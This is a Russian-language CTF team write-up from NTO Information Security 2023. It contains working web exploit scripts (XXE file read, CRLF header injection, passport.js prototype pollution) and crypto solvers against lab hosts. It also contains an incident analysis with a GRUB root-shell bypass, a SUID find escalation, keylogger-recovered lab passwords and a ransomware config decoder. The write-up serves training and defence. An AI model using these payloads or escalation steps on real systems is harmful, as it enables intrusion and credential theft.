

# Отчет NightmareFuel

> 🏆 **НТО Информационная Безопасность 2023**
> 

> 😎 **В главных ролях:** *Газизуллин Даниил, Андуков Алмаз, Тимофеев Никита, Иванов Лев*
> 

# 💥 Часть 1: Наступательная кибербезопасность

## 🌐 Web-1

> Метод решения: **XML External Entity**. Можно изменить представление входных данных на XML, подогнав структуру под изначальный JSON, внедрив в это представление полезную нагрузку для атаки XXE.
> 

```jsx
socket.addEventListener('message', (event) => {
    console.log(JSON.parse(decrypt(JSON.parse(event.data).data)).data);
});

socket.send(JSON.stringify(encrypted({
    format: 'xml',
    data: '<?xml version="1.0"?><!DOCTYPE data [<!ENTITY test SYSTEM \'file:///flag.txt\'>]><data>&test;<countries></countries><resttype>1</resttype><startdate></startdate><enddate></enddate></data>'
})));
```


🏁 Flag: `nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}`


## 🌐 Web-2:

> Метод решения: **HTTP Request Smuggling**. Можно произвести атаку HRS (HTTP Request Splitting), используя поле username, которое без должной фильтрации подставляется в заголовок запроса Cookie. Добившись ошибки валидатора переносов строк (должны быть CRLF, передаем только CR), получаем сообщение о ней вместе с флагом, который находится дальше
> 

```python
import requests as r

print(r.post("http://10.10.10.10:3002/register", data={
    "username": "\r",
    "password": " ",
}).text)
```


🏁 Flag: `NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}`


## 🌐 Web-3

> Метод решения: **********************************Prototype Pollution**********************************. Нужный нам гаджет находится в библиотеке `passport.js`. ([github](https://github.com/jaredhanson/passport/blob/cfdbd4a762b51e339ebfea931d65bccbbde53282/lib/middleware/initialize.js#L92)) Опция `userProperty` в объекте config отвечает за то, в какое поле объекта `req` `passport` записывает объект с юзером. По умолчанию она равна `“user”`, однако с помощью prototype pollution мы можем переписать её стандартное значение на `“isLocalRequest”`, тем самым сделав `req.isLocalRequest == true` вне зависимости от IP, с которого был послан запрос (т.к. middleware passport’а в цепочке выполняется после middleware, задающего `isLocalRequest`, но перед middleware, *проверяющего* на `req.isLocalRequest`). Значит, выполнив запрос на эндпоинт `/pollute/userProperty/isLocalRequest` и войдя под любым юзернеймом, мы сможем обойти проверку на IP и получить доступ к `/admin/flag`.
> 

```python
import requests as r

with r.Session() as s:
    s.get("http://10.10.10.10:3000/pollute/userProperty/isLocalRequest")
    s.get("http://10.10.10.10:3000/auth?username=haha")
    res = s.get("http://10.10.10.10:3000/admin/flag")
    print(res.text)
```


🏁 Flag: `nto{pr0t0typ3_pollut10n_g4dged5_f56acc00f5eb803de88496b}`


## 🔑 Crypto-1

> Метод решения: **Словарь символов**. Символы текста кодируются однозначно и поочередно. Поэтому можно построить словарь для всех доступных ASCII символов, затем сопоставить полученные шифротексты с зашифрованным флагом и получить исходный код.
> 

```python
...

flag = [277, 92, 775, 480, 160, 92, 31, 586, 277, 801, 355, 489, 801, 31, 62, 926, 725, 489, 160, 92, 31, 586, 277, 801,
        355, 489, 1281, 62, 801, 489, 1175, 277, 453, 489, 453, 348, 725, 31, 348, 864, 864, 348, 453, 489, 737, 288,
        453, 489, 889, 804, 96, 489, 801, 721, 775, 926, 1281, 631]
abc = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_{}"
hashed = DihedralCrypto(1337).hash(abc)

for key in flag:
    for i in range(len(abc)):
        if hashed[i] == key:
            print(abc[i], end="")
```


🏁 Flag: `nto{5tr4ng3_gr0up_5tr4ng3_l0g_and_depressed_kid_zxc_ghoul}`


## 🔑 Crypto-2

> Метод решения: **Brute-Force**. Если число, полученное с сервера меньше, чем половина модуля, значит этот бит точно равен единице, т.к `randint(n // 2, n)`. Если после `ATTEMPTS` попыток ни разу не удалось получить такой ответ, значит этот бит *скорее всего* равен 0
> 

```python
from Crypto.Util.number import long_to_bytes
import requests

flag, bit, ATTEMPTS, MODULUS = "", 0, 100, 91689570370123#...

for bit in range(200):
    for _ in range(ATTEMPTS):
        response = requests.get(f"http://10.10.10.10:1177/guess_bit?bit={bit}").json()
        if "guess" not in response:
            print(long_to_bytes(int(flag, 2)))
            exit(0)

        if response["guess"] < MODULUS // 2:
            flag += "1"
            break
    else:
        flag += "0"
```


🏁 Flag: `nto{0h_n0_t1m1ng}`


## 🔃 Reverse-1

> Заметив инструкцию INT (`CD 15`) в дизассемблере (отвечает за сон [прерывание]), подменим биты через редактор HEX на пустую инструкцию (`17 01`) и запустим файл через `dosbox`
> 




🏁 Flag: `nto{h3ll0_n3w_5ch00l_fr0m_0ld!!}`


---

# 🕵️ Часть 2: Расследование инцидента

# 🐧 Машина №1. Ubuntu

### Предисловие: Как попасть на машину?

Заходим в GRUB меню (при включении машины зажать клавишу Enter), нажимаем `e`, меняем `ro quite splash ...`  на `rw init=/bin/bash`. При запуске в root-shell пишем `mount -no remount,rw /`, затем `passwd sergey` и вводим новый пароль для пользователя. Можно так же сменить пароль для root.

### Как злоумышленник попал на машину?

Пользователем был скачан зараженный файл `minecraft.jar`, который он (либо человек с физическим доступом к машине, например, его сын), судя по `.bash_history`, запустил (строка `java -jar minecraft.jar`). В файле был найден вредоносный код, открывающий реверс-шелл на IP `192.168.126.129`, порт `4444` от лица пользователя `sergey` дающий доступ к исполняемому файлу `/usr/bin/bash`, который дал злоумышленнику доступ к выполнению команд от лица пользователя, а также “входное окно” для дальнейшей эскалации и атак.


### Как повысил свои права?

В первую очередь атакующий запустил программу сканирования уязвимостей `linpeas` (файл `/home/sergey/Downloads/linpeas.sh`). По `.bash_history` можно понять, что на файле `/usr/bin/find` стоял бит SUID, который позволяет с легкостью эскалировать привелегии (`find something -exec /bin/bash`, например). Вероятнее всего, вектор атаки проходил именно через этот файл.


### Как злоумышленник узнал пароль от `passwords.kdbx`?

Ответ: Из файла `/var/log/logkeys.log`

При анализе ранее найденного файла `/var/log/logkeys.log` было обнаружено, что в нем содержится пароль от KeePass2 базы данных. `cat ~/.recent_files` показывает, что единственный файл, с которым пользователь взаимодействовал недавно - `/home/sergey/passwords.kdbx`. Переписав пароль из формата хранения кей-логгера в привычный (`1_D0N7_N0W_WHY_N07_M4Y83_345Y`), мы убедились в том, что он подходит к базе данных (`keepass /home/sergey/passwords.kdbx` → Ввели пароль, тем самым расшифровав базу данных). По такому же пути этот пароль узнал и злоумышленник — через файл журналов кей-логгера.


### Куда `logkeys` пишет логи ?

Ответ: `/var/log/logkeys.log`

При рутинном анализе файлов журналов с целью выяснить время и способ попадания злоумышленника на машину был выявлен нестандартный файл в директории `/var/log`. При дальнейшем анализе выяснилось, что файл был создан кей-логгером  https://github.com/kernc/logkeys. Это было сделано путем поиска файлов в корне по содержимому: `grep -rn "logkeys" / 2>/dev/null`. Также, всю эту информацию можно было получить из журналов последних действий (`.bash_history`), где встречалась строка `cat /var/log/logkeys.log`.

Смотрим историю. Видим команды `cd Downloads/build/src`, `./logkeys`. Тем самым убеждаемся, что запускался именно файл по пути `~/Downloads/build/src/logkeys`. Сравним даты изменения файлов `/var/log/logkeys.log` и исполняемого `logkeys`. По датам (`ls -laht logkeys`, `ls -laht /var/log/logkeys.log`) видно, что файл лога изменялся после файла logkeys, а значит, именно он писал в этот лог.

Запускаем файл `logkeys`, видим справку со ссылкой на репозиторий и версию (0.2.0). Зайдя по этому тегу на github видим, что при запуске без аргумента -o (как в нашем случае), стандартный путь для записи логов - `/var/log/logkeys.log`


### Пароль от чего лежит в `passwords.kdbx`?

Ответ: Windows RDP

Открыв файл `/home/sergey/passwords.kdbx` при помощи команды `keepass2 /home/sergey/passwords.kdbx` и введя ранее найденный пароль, мы выяснили, что база данных содержит ключ от `windows_rdp`: `Administrator` / `SecretP@ss0rdMayby_0rNot&`. Это пароль для подключения к *какой-то* машине, работающей на Windows, через удаленный рабочий стол (Remote Desktop Protocol).


### 🔍 Приложение: Криптор

В директории `/home/sergey/Downloads` был найден исполняемый файл `VTropia.exe`. При обратном анализе выяснилось, что это шифровальщик данных. Если бы машина работала на Windows, произошло бы следующее:

- Файлы зашифровались
- На рабочем столе появился бы файл `info.txt` со следующим содержимым: `Sad to say, but all your files have been encrypted!\n\nBut don't cry, there's the way to recover them - pay 500$ in BTC to this wallet:\n3J98t1WpEZ73CNmQviecrnyiWrnqRhWNLy\n\nYou have 24 hours. After them your files will stay unaccessible for next eternity.`


```python
from base64 import b64decode

IP = b"NiA3XjonOFogOlYaPBAhXT8eJhwxHVoaNlpZBTQFI10VXi8/DS01NDEQOhU="
Message = b"AlojBRAnJxolCyEFABsYCjwnOlwaMykDNisrRjVbMxcQKC8cDgQ5FywPBwUBJDkLChk5HDYBKx81BSsXPDc3XDYUPgUmLx8uARE9CwkzVgUeWzgUDlsvWxUsN1wNBDkUPxsLFywBPgMJJy1DDTACFDMvXQk6AiMGDnA1AQYhLV0EDjoYGjdfFzcvL0YeLDAZFCwkCw0UWwo0JD0pLAE+Gho8PR81MCQUM1ojHTsoI1wjJAAXNiIEWQENKjQwMTkRGhInNwMFVDw9AhkANXAlGAAfAzUGJFkUBhkHKAADEUYUDxU0O1wgCw0EKV8/Gy4UKwouAzFHOQk3EV0UBj8/XgM3PAsIBAcBBxstWAd6OhUaMzUANi8/CR4gAR47KAILD3A9BQAbLVwHJCoGCkY5CjdaBRo1LzAJAwJMFSUEWgEAAD4KPxE+ADAZWgAwIAIG"

k = b"WhenYoullComeHomeIllStopThis" * 1000

def decode(s):
    return b64decode("".join(chr(a ^ b) for a, b in zip(b64decode(s), k)))

print(decode(IP))
print(decode(Message))
```

# 🪟 Машина №2. Windows

### Предисловие: Как попасть на машину?

В прошлой машине мы нашли базу данных паролей `passwords.kdbx`. В ней содержится пароль от администратора.

### Как злоумышленник нашел учетные данные от Web-сервиса?

После расшифровки файлов из директории `C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default` при помощи ранее написанной программы, заменив файлы на расшифрованные и запустив Chrome, в настройках были найдены учетные данные от веб-сервиса.


### Как произошла доставка вредоносного ПО?

Подключившись по RPD злоумышленник загрузил файл Doom.exe


После запуска файла Doom.exe на компьютере открылся бэкдрор (njrat). После чего на компьютер загрузился файл VTropia.exe, который зашифровал файлы и удалился.


данный журнал активностей можно получить по пути `C:\Users\Administrator\AppData\Local\ConnectedDevicesPlatform\L.Administrator`


### Какой пароль от Ransomware?

Получаем ключ и IV из дебаггера `dnSpy` (`VTropia.exe`). Пишем расшифровщик Dijndael шифра на Python, подставляя нужные ключи и режим. Файл `Important.txt.txt.p4blm` после расшифровки содержит в себе `CSh4RpR@n50mWar3z4ReSti11Us3fUl`.

Ключ от зашифрованных файлов: `4FEE20FFA3D23DEDDB909B0D49B5BBA5DA5C0738335E8615C86DE4B38B0166D4` (hex)

Вектор инициализации для расшифровки: `B31D5E98D1BAEE97CBA4D0A0D01E1B53` (hex)

`Config.User`:  `NTI-User`

`Utils.CalculateKey()` → `084b988baa7c8d98cda90c5fe603c560`

`Utils.EncryptFile()` → `6DF3F9585118CDD185E64E67B6C27840FC3D5EB427BB18FF652BDCEBBEAEE8D2`

`Utils.AES_Encrypt()` → `4FEE20FFA3D23DEDDB909B0D49B5BBA5DA5C0738335E8615C86DE4B38B0166D4` / `B31D5E98D1BAEE97CBA4D0A0D01E1B53`


```python
import os
import py3rijndael

for file in os.scandir("dec"):
    with open(file.path, "rb") as f:
        d = f.read()

    key = bytearray.fromhex("4FEE20FFA3D23DEDDB909B0D49B5BBA5DA5C0738335E8615C86DE4B38B0166D4")
    iv = bytearray.fromhex("B31D5E98D1BAEE97CBA4D0A0D01E1B53")

    r = py3rijndael.RijndaelCbc(key, iv, py3rijndael.paddings.ZeroPadding(128 // 8))
    with open(file.path, "wb") as f:
        f.write(r.decrypt(d))
```

### Какие процессы в системе являются вредоносными?

Загрузив `Doom.exe` на бесплатный инструмент проверки файлов на наличие ВПО, можем

```python
1108 - %USERPROFILE%\AppData\Roaming\Host Process for Windows Tasks.exe
1220 - C:\Windows\SysWOW64\netsh.exe netsh firewall add allowedprogram "C:\Users\user\Security Health Service.exe" "Security Health Service.exe" ENABLE
1628 - "C:\ProgramData\Windows Explorer.exe" ..
1744 - %USERPROFILE%\AppData\Local\Temp\Runtime Broker.exe
1920 - C:\Users\<USER>\AppData\Roaming\Dropped\1.exe
2112 - C:\Users\<USER>\AppData\Roaming\Dropped\2.exe
2192 - C:\Windows\SysWOW64\netsh.exe
2252 - C:\ProgramData\Windows Explorer.exe
2292 - "C:\Users\user\Security Health Service.exe"
2324 - %SAMPLEPATH%\Doom.exe
2460 - C:\Windows\Antimalware Service Executable.exe
2480 - C:\Windows\SysWOW64\netsh.exe netsh firewall add allowedprogram "C:\Users\user\AppData\Roaming\Host Process for Windows Tasks.exe" "Host Process for Windows Tasks.exe" ENABLE
2508 - %USERPROFILE%\Security Health Service.exe
2544 - C:\Windows\SysWOW64\netsh.exe netsh firewall add allowedprogram "C:\ProgramData\Windows Explorer.exe" "Windows Explorer.exe" ENABLE
2812 - C:\Windows\SysWOW64\netsh.exe
2828 - C:\Users\<USER>\AppData\Roaming\Dropped\3.exe
2836 - %USERPROFILE%\AppData\Roaming\Dropped\5.exe
2844 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
2892 - %WINDIR%\explorer.exe
2996 - C:\Windows\SysWOW64\netsh.exe
3008 - C:\Windows\SysWOW64\netsh.exe
3068 - %USERPROFILE%\AppData\Roaming\Dropped\4.exe
3084 - C:\Windows\SysWOW64\netsh.exe
3124 - C:\Users\<USER>\AppData\Roaming\Dropped\5.exe
3236 - "C:\Windows\Antimalware Service Executable.exe" ..
3244 - "C:\ProgramData\Windows Explorer.exe"
3292 - C:\Users\<USER>\AppData\Roaming\Host Process for Windows Tasks.exe
3364 - "C:\Users\user\AppData\Roaming\Dropped\1.exe"
3512 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
3528 - "C:\Users\user\AppData\Local\Temp\Runtime Broker.exe" ..
3548 - "C:\Windows\Antimalware Service Executable.exe"
3592 - %USERPROFILE%\AppData\Roaming\Dropped\2.exe
3664 - C:\Windows\System32\wuapihost.exe
3668 - %USERPROFILE%\AppData\Roaming\Dropped\1.exe
3708 - %USERPROFILE%\AppData\Roaming\Dropped\3.exe
3820 - "C:\Users\user\AppData\Roaming\Host Process for Windows Tasks.exe" ..
3824 - C:\Windows\SysWOW64\netsh.exe netsh firewall add allowedprogram "C:\Windows\Antimalware Service Executable.exe" "Antimalware Service Executable.exe" ENABLE
4024 - "C:\Users\user\AppData\Roaming\Host Process for Windows Tasks.exe"
4212 - "C:\Users\user\AppData\Local\Temp\Runtime Broker.exe" ..
4640 - "C:\Windows\Antimalware Service Executable.exe" ..
4872 - "C:\Users\user\AppData\Roaming\Dropped\2.exe"
5576 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
5612 - C:\Windows\SysWOW64\WerFault.exe -u -p 6864 -s 1672
572 - "C:\Users\user\AppData\Roaming\Dropped\4.exe"
5740 - "C:\Users\user\AppData\Roaming\Dropped\5.exe"
5768 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
6036 - "C:\Users\user\AppData\Local\Temp\Runtime Broker.exe"
6088 - "C:\Users\user\AppData\Roaming\Host Process for Windows Tasks.exe" ..
616 - C:\Windows\System32\svchost.exe
6164 - "C:\Users\user\Security Health Service.exe" ..
6672 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
6864 - C:\Users\user\Desktop\Doom.exe
6872 - "C:\Users\user\AppData\Roaming\Dropped\3.exe"
6996 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
7016 - "C:\ProgramData\Windows Explorer.exe" ..
7044 - C:\Windows\SysWOW64\netsh.exe netsh firewall add allowedprogram "C:\Users\user\AppData\Local\Temp\Runtime Broker.exe" "Runtime Broker.exe" ENABLE
948 - Doom.exe
984 - C:\Users\<USER>\AppData\Roaming\Dropped\4.exe
1628 - "C:\ProgramData\Windows Explorer.exe" ..
 1920 - C:\Users\<USER>\AppData\Roaming\Dropped\1.exe
 2112 - C:\Users\<USER>\AppData\Roaming\Dropped\2.exe
 2192 - C:\Windows\SysWOW64\netsh.exe
 2252 - C:\ProgramData\Windows Explorer.exe
 2292 - "C:\Users\user\Security Health Service.exe"
 2324 - %SAMPLEPATH%\Doom.exe
 2828 - C:\Users\<USER>\AppData\Roaming\Dropped\3.exe
 2836 - %USERPROFILE%\AppData\Roaming\Dropped\5.exe
 2844 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
2892 - %WINDIR%\explorer.exe
 2996 - C:\Windows\SysWOW64\netsh.exe
 3008 - C:\Windows\SysWOW64\netsh.exe
 3068 - %USERPROFILE%\AppData\Roaming\Dropped\4.exe
 3084 - C:\Windows\SysWOW64\netsh.exe
 3124 - C:\Users\<USER>\AppData\Roaming\Dropped\5.exe
3236 - "C:\Windows\Antimalware Service Executable.exe" ..
 3244 - "C:\ProgramData\Windows Explorer.exe"
 3292 - C:\Users\<USER>\AppData\Roaming\Host Process for Windows Tasks.exe
 3364 - "C:\Users\user\AppData\Roaming\Dropped\1.exe"
 3512 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
3528 - "C:\Users\user\AppData\Local\Temp\Runtime Broker.exe" ..
 3548 - "C:\Windows\Antimalware Service Executable.exe"
 3592 - %USERPROFILE%\AppData\Roaming\Dropped\2.exe
 3664 - C:\Windows\System32\wuapihost.exe
 3668 - %USERPROFILE%\AppData\Roaming\Dropped\1.exe
 3708 - %USERPROFILE%\AppData\Roaming\Dropped\3.exe
3820 - "C:\Users\user\AppData\Roaming\Host Process for Windows Tasks.exe" ..
 3824 - C:\Windows\SysWOW64\netsh.exe netsh firewall add allowedprogram "C:\Windows\Antimalware Service Executable.exe" "Antimalware Service Executable.exe" ENABLE
 4024 - "C:\Users\user\AppData\Roaming\Host Process for Windows Tasks.exe"
4212 - "C:\Users\user\AppData\Local\Temp\Runtime Broker.exe" ..
4640 - "C:\Windows\Antimalware Service Executable.exe" ..
 4872 - "C:\Users\user\AppData\Roaming\Dropped\2.exe"
 5576 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
 5612 - C:\Windows\SysWOW64\WerFault.exe -u -p 6864 -s 1672
 572 - "C:\Users\user\AppData\Roaming\Dropped\4.exe"
 5740 - "C:\Users\user\AppData\Roaming\Dropped\5.exe"
 5768 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
 6036 - "C:\Users\user\AppData\Local\Temp\Runtime Broker.exe"
6088 - "C:\Users\user\AppData\Roaming\Host Process for Windows Tasks.exe" ..
616 - C:\Windows\System32\svchost.exe
6164 - "C:\Users\user\Security Health Service.exe" ..
 6672 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
6864 - C:\Users\user\Desktop\Doom.exe
 6872 - "C:\Users\user\AppData\Roaming\Dropped\3.exe"
 6996 - C:\Windows\System32\conhost.exe C:\Windows\system32\conhost.exe 0xffffffff -ForceV1
7016 - "C:\ProgramData\Windows Explorer.exe" ..
 7044 - C:\Windows\SysWOW64\netsh.exe netsh firewall add allowedprogram "C:\Users\user\AppData\Local\Temp\Runtime Broker.exe" "Runtime Broker.exe" ENABLE
948 - Doom.exe
 984 - C:\Users\<USER>\AppData\Roaming\Dropped\4.exe
```


### Какие средства обфускации были использованы?

Код был обфусцирован с помощью `Eziriz .NET Reactor`

Методы обфускации:

- Обфускация имен переменных.
- Повторение одних и тех же функций в коде с разными названиями.
- Ненужный код, который не используется, и добавлен исключительно с целью отвлечь специалиста ИБ.
- Мусорные методы, не возвращающие ничего или возвращающие констатное значение (например, `true`).
- Разбиение кода на несвязные (на взгляд пользователя) методы (switch-case на 1000+ значений).
- Преобразование управления — код не выполняется в одном месте. Указатель исполнения мигрирует по разным фрагментам одного файла, или вообще по разным файлам. Это очень сильно усложняет дебаггинг и реверс инженеринг.


---

# 🔧 Часть 3: Исправление уязвимостей

## ✅ NoSQL Injection

> **Митигация**: использование  библиотеки, через которую надо фильтровать данные, приходящие от пользователя
> 

> **Импакт**: Можно обойти авторизацию, изменить \ удалить данные в базе данных
> 


## ✅ Prototype (Class) pollution

> **Митигация**: использовать белый списой опций для получения атрибутов, либо полностью переписать систему обращения к ним. Базовая митигация состоит в том, чтобы проверять аргументы на то, начинаются ли они (или заканчиваются на) с символа нижнего подчеркивания. В Python не получится сделать ничего вредоносного без атрибутов с нижними подчеркиваниями.
> 

> **Импакт**: можно изменить базовые атрибуты класса, что позволит контроллировать атрибуты объектов (`__class__.__base__`)
> 


## ✅ Using weak hashing algorithms

> **Митигация**: использовать sha256 вместо md5
> 

> **Импакт**: упрощается брутфорс значений
> 


## ✅ Ordered IDs

> **Митигация**: использовать случайные значения для ID бэкапов (`random.samples`) с более обширным словарем
> 

> **Импакт**: можно с легкостью угадать чужой бэкап
> 


## ✅ Large string→int conversion DOS attack

> **Митигация**: проверять длину строки перед ее переводом в число
> 

> **Импакт**: при неправильной конфигурации веб-сервиса эта уязвимость вызовет падение, а при правильной - ошибки
> 


## ✅ Inappropriate security options for methods

> **Митигация**: скопировать декоратор проверки администратора `@access.is_admin` на метод `set_permissions`
> 

> **Импакт**: любой пользователь может изменять права для любого другого пользователя
> 


## ✅ Excessive hints in login errors

> **Митигация**: возвращать одинаковые ошибки авторизации и HTTP статус коды при неправильных логине и пароле
> 

> **Импакт**: злоумышленник может подобрать логин пользователя независимо от его пароля
> 


